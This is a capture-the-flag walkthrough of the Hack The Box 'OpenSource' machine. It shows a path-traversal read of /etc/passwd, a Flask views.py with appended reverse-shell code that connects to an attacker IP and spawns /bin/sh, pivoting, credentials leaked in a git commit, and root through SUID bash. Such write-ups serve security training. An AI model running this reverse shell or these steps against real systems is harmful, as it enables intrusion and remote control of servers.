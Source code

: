 # htb-opensource

# User Access
### LFI

`os.path.join` function has an input of path, if this input equals to an absolute path, the command will throw other inputs and only reads the absolute path.

so getting the following URL gives us `/etc/passwd`

~~~
/uploads/..//etc/passwd
~~~


### Reverse shell

uploaded a `reverseshell.py` into `/app/app/views.py`

~~~
import os
from os import dup2
from subprocess import run

import socket

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/download')
def download():
    return send_file(os.path.join(os.getcwd(), "app", "static", "source.zip"))


@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))




s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.101",3984)) 
dup2(s.fileno(),0) 
dup2(s.fileno(),1) 
dup2(s.fileno(),2) 
run(["/bin/sh","-i"])
~~~

Once inside the container realize that the port `3000` is not filtered. so we need **pivoting** and tunnel through the container to see the app running on `3000`


### Pivoting

used this [repo inside the container](https://github.com/BloodhoundAllfather/dembe)
now the webserver is available on my own lap top.

in `users` we see that a user named `dev01` exists.
tried bruteforcing  it with no luck. 

### User Credentials

Started digging in the source code and found [this](https://github.com/mohsenkamini/htb-opensource/commit/a76f8f75f7a4a12b706b0cf9c983796fa1985820)

using the creds to login inside the gitea and found an `id_rsa` which enables login to `dev01@opensource.htb`


# Root Access

### privilege escalation

Running `linpeas` show `/bin/bash` has `sbit`/`SUID` enabled. running `/bin/bash -p` provides root access.


